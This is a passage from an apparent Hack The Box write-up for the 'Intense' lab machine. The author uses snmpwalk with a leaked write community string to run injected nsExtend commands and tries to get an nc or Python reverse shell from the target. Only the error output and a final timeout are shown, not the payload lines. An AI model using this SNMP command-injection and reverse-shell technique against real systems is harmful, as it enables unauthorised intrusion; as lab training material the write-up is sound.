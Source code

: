 created my command to send nc reverse shell

```text
┌──(zweilos㉿kali)-[~/htb/intense]
└─$ snmpwalk -v 2c -c SuP3RPrivCom90 10.10.10.195 nsExtendOutput1                                   2 ⚙
NET-SNMP-EXTEND-MIB::nsExtendOutput1Line."test1" = STRING: Hello, world!
NET-SNMP-EXTEND-MIB::nsExtendOutput1Line."test2" = STRING: Hello, world!
NET-SNMP-EXTEND-MIB::nsExtendOutput1Line."command" = STRING: /bin/nc: invalid option -- 'e'
NET-SNMP-EXTEND-MIB::nsExtendOutputFull."test1" = STRING: Hello, world!
NET-SNMP-EXTEND-MIB::nsExtendOutputFull."test2" = STRING: Hello, world!
Hi there
NET-SNMP-EXTEND-MIB::nsExtendOutputFull."command" = STRING: /bin/nc: invalid option -- 'e'
usage: nc [-46CDdFhklNnrStUuvZz] [-I length] [-i interval] [-M ttl]
          [-m minttl] [-O length] [-P proxy_username] [-p source_port]
          [-q seconds] [-s source] [-T keyword] [-V rtable] [-W recvlimit] [-w timeout]
          [-X proxy_protocol] [-x proxy_address[:port]]           [destination] [port]
NET-SNMP-EXTEND-MIB::nsExtendOutNumLines."test1" = INTEGER: 1
NET-SNMP-EXTEND-MIB::nsExtendOutNumLines."test2" = INTEGER: 2
NET-SNMP-EXTEND-MIB::nsExtendOutNumLines."command" = INTEGER: 5
NET-SNMP-EXTEND-MIB::nsExtendResult."test1" = INTEGER: 0
NET-SNMP-EXTEND-MIB::nsExtendResult."test2" = INTEGER: 8960
NET-SNMP-EXTEND-MIB::nsExtendResult."command" = INTEGER: 1
```

Unfortunately the version of `nc` on the victim's computer did not have `-e` functionality, so I wasn't able to get it to send me a reverse shell.

## Getting a shell

```text
┌──(zweilos㉿kali)-[~/htb/intense]
└─$ snmpwalk -v 2c -c SuP3RPrivCom90 10.10.10.195 nsExtendOutput1                                   2 ⚙
NET-SNMP-EXTEND-MIB::nsExtendOutput1Line."test1" = STRING: Hello, world!
NET-SNMP-EXTEND-MIB::nsExtendOutput1Line."test2" = STRING: Hello, world!
NET-SNMP-EXTEND-MIB::nsExtendOutput1Line."command" = STRING:   File "<string>", line 1
NET-SNMP-EXTEND-MIB::nsExtendOutputFull."test1" = STRING: Hello, world!
NET-SNMP-EXTEND-MIB::nsExtendOutputFull."test2" = STRING: Hello, world!
Hi there
NET-SNMP-EXTEND-MIB::nsExtendOutputFull."command" = STRING:   File "<string>", line 1
    "import
          ^
SyntaxError: EOL while scanning string literal
NET-SNMP-EXTEND-MIB::nsExtendOutNumLines."test1" = INTEGER: 1
NET-SNMP-EXTEND-MIB::nsExtendOutNumLines."test2" = INTEGER: 2
NET-SNMP-EXTEND-MIB::nsExtendOutNumLines."command" = INTEGER: 4
NET-SNMP-EXTEND-MIB::nsExtendResult."test1" = INTEGER: 0
NET-SNMP-EXTEND-MIB::nsExtendResult."test2" = INTEGER: 8960
NET-SNMP-EXTEND-MIB::nsExtendResult."command" = INTEGER: 1

┌──(zweilos㉿kali)-[~/htb/intense]
└─$ snmpwalk -v 2c -c SuP3RPrivCom90 10.10.10.195 nsExtendOutput1                                   2 ⚙
NET-SNMP-EXTEND-MIB::nsExtendOutput1Line."test1" = STRING: Hello, world!
NET-SNMP-EXTEND-MIB::nsExtendOutput1Line."test2" = STRING: Hello, world!
Timeout: No Response from 10.10.10.195
```
